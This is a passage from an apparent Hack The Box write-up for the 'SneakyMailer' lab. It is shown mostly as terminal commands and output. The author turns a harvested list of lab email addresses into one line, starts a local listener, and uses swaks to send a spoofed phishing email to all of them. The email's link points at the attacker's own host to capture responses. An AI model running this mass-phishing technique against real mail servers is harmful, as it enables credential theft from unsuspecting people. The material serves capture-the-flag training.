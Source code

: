 ```
┌──(HTB)─(kali㉿kali)-[~/Desktop/sneakymailer]
└─$ cat emails.txt | tr '\n' ','
airisatou@sneakymailer.htb,angelicaramos@sneakymailer.htb,ashtoncox@sneakymailer.htb,bradleygreer@sneakymailer.htb,brendenwagner@sneakymailer.htb,briellewilliamson@sneakymailer.htb,brunonash@sneakymailer.htb,caesarvance@sneakymailer.htb,carastevens@sneakymailer.htb,cedrickelly@sneakymailer.htb,chardemarshall@sneakymailer.htb,colleenhurst@sneakymailer.htb,dairios@sneakymailer.htb,donnasnider@sneakymailer.htb,doriswilder@sneakymailer.htb,finncamacho@sneakymailer.htb,fionagreen@sneakymailer.htb,garrettwinters@sneakymailer.htb,gavincortez@sneakymailer.htb,gavinjoyce@sneakymailer.htb,glorialittle@sneakymailer.htb,haleykennedy@sneakymailer.htb,hermionebutler@sneakymailer.htb,herrodchandler@sneakymailer.htb,hopefuentes@sneakymailer.htb,howardhatfield@sneakymailer.htb,jacksonbradshaw@sneakymailer.htb,jenagaines@sneakymailer.htb,jenettecaldwell@sneakymailer.htb,jenniferacosta@sneakymailer.htb,jenniferchang@sneakymailer.htb,jonasalexander@sneakymailer.htb,laelgreer@sneakymailer.htb,martenamccray@sneakymailer.htb,michaelsilva@sneakymailer.htb,michellehouse@sneakymailer.htb,olivialiang@sneakymailer.htb,paulbyrd@sneakymailer.htb,prescottbartlett@sneakymailer.htb,quinnflynn@sneakymailer.htb,rhonadavidson@sneakymailer.htb,sakurayamamoto@sneakymailer.htb,sergebaldwin@sneakymailer.htb,shaddecker@sneakymailer.htb,shouitou@sneakymailer.htb,sonyafrost@sneakymailer.htb,sukiburks@sneakymailer.htb,sulcud@sneakymailer.htb,tatyanafitzpatrick@sneakymailer.htb,thorwalton@sneakymailer.htb,tigernixon@sneakymailer.htb,timothymooney@sneakymailer.htb,unitybutler@sneakymailer.htb,vivianharrell@sneakymailer.htb,yuriberry@sneakymailer.htb,zenaidafrank@sneakymailer.htb,zoritaserrano@sneakymailer.htb,  
```

Next, we will then use swaks to craft the phishing email to all the user. We will then need to setup a local server to receive the response from the phishing email. For this, we would need to use a ```nc``` command instead of ```python3 -m http.server``` as the SMTP server sends a POST request to the local server that we have set up. 

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/sneakymailer]
└─$ python3 -m http.server 3000
Serving HTTP on 0.0.0.0 port 3000 (http://0.0.0.0:3000/) ...
10.10.10.197 - - [19/Apr/2022 09:36:44] code 501, message Unsupported method ('POST')
10.10.10.197 - - [19/Apr/2022 09:36:44] "POST / HTTP/1.1" 501 -
```

Now, we will then use swaks to craft a phshing email that is to be sent to all the email addresses. In the body of the email, we will include our local server so that anyone who clicks on the phishing link will then send their response to our local server.

```
──(kali㉿kali)-[~/Desktop/sneakymailer]
└─$ swaks --to $(cat emails.txt | tr '\n' ',') --from test@sneakymailer.htb --header "Phishing email" --body "http://10.10.16.4:4000" --server 10.10.10.197
=== Trying 10.10.10.197:25...
=== Connected to 10.10.10.197.
<-  220 debian ESMTP Postfix (Debian/GNU)
 -> EHLO kali
<-  250-debian
<-  250-PIPELINING
<-  250-SIZE 10240000
<-  250-VRFY
<-  250-ETRN
<-  250-STARTTLS
<-  250-ENHANCEDSTATUSCODES
<-  250-8BITMIME
<-  250-DSN
<-  250-SMTPUTF8
<-  250 CHUNKING
 -> MAIL FROM:<test@sneakymailer.htb>
<-  250 2.1.0 Ok
....
```
